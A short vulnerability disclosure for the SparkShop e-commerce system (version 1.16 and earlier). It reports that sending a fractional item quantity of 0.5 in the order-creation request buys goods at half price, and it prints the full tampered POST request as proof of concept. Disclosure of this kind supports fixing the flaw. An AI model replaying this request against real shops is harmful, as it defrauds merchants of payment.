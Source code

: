 ### Vulnerability Introduction

target:https://gitee.com/sparkshop/sparkshop

version: Sparkshop<=1.16

By modifying the quantity of goods in the order, we can achieve half price purchase of goods



### Vulnerability reproduction

First, obtain an order and modify the quantity of goods

```
POST /index/order/createOrder HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 173
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: sparkShop=

goods%5B0%5D%5Bgoods_id%5D=3&goods%5B0%5D%5Brule_id%5D=0&goods%5B0%5D%5Bnum%5D=0.5&pay_way=balance&coupon=0&address_id=1&cart_id=&orderType=1&remark=&deliver_type=1&store_id=0
```

Here we have changed the parameters of goods% 5B0% 5D% 5Bnum% 5D to 0.5, which ensures that the quantity of our products after purchase is rounded to 1.

![image-20241009164335987](assets/image-20241009164335987.png)

As shown in the picture, successfully purchased the product at half price.
